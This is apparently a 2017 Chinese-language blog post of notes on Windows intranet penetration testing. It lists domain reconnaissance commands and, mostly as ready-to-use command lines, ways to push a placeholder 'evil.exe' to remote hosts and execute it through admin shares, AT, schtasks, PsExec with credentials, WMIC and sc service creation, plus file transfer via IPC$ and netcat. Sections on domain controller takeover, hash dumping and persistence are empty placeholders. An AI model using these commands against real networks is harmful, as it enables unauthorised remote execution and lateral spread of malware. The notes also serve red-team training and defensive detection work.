 ```yaml
---
layout:     post
title:      "Windows 内网渗透总结"
subtitle:   "内网入门基本姿势"
date:       2017-06-09 21:19 +0800
author:     "gsfish"
header-img: "img/post-bg-hacker.jpg"
tags:
    - 内网
---
```


# 整体思路（持续更新）

![01.png](/img/domain-pentest-note/01.png)

# 0x00 环境判断（DOMAIN / WORKGROUP）

```
net time /domain
net config workstation
systeminfo
ipconfig /all
```

# 0x01 信息收集

```
net view /domain [:XXX]
net user /domain
net group /domain
net accounts /domain
nslookup
dsquery
```

# 0x02 域内

## 域内运行命令

1. 计划任务

    1) AT
        
        copy evil.exe \\[HOST]\c$\windows\temp\evil.exe  # 上传恶意文件
        at \\[HOST] 15:00 c:\windows\temp\evil.exe

    2) SCHTASKS

        schtasks /create /tn boom /tr c:\windows\temp\evil.exe /sc once /st 00:00 /s [HOST] /ru system
        schtasks /run /tn boom /s [HOST]
        schtasks /delete /tn boom /f /s [HOST]  # 清除 boom

2. PsExec

    1) 建立 IPC$ 连接后

        psexec \\[HOST] -c evil.exe

    2) 在 PsExec 的参数中指定账号密码

        psexec.exe \\[HOST] –accepteula -u [USERNAME] -p [PASSWORD] -c evil.exe

3. WMIC 远程运行命令

        copy evil.exe \\[HOST]\c$\windows\temp\evil.exe
        wmic /node:[HOST] /user:administrator /p [PASSWORD] process call create c:\windows\temp\evil.exe

4. SC 创建服务执行

    1) 系统权限(其中test为服务名)

        sc \\[HOST] create boom binpath= c:\evil.exe
        sc \\[HOST] start boom
        sc \\[HOST] delete boom

    2) 指定用户权限启动

        sc \\[HOST] create boom binpath= c:\evil.exe obj= [DOMAIN]\administrator passwrod= [PASSWORD]
        sc \\[HOST] start boom

## 域内的文件操作

1. 利用 IPC$

        net use \\[HOST]\IPC$
        copy evil.exe \\[HOST]\C$\

2. 利用 Telnet

    服务端：

        nc -lvp 23 < nc.exe

    下载端：

        telnet [HOST] -f c:\nc.exe

3. 利用文件共享

        net use x: \\[HOST]\[SHARE] [PASSWORD] /user:[DOMAIN]\[USERNAME]

# 0x03 拿下域控

// TODO

# 0x04 Hash dump

// TODO

# 0x05 权限维持

// TODO

---

> 参考资料：  
> [域渗透基础简单信息收集（基础篇）](https://xianzhi.aliyun.com/forum/read/805.html)  
> [windows内网渗透杂谈](https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html)
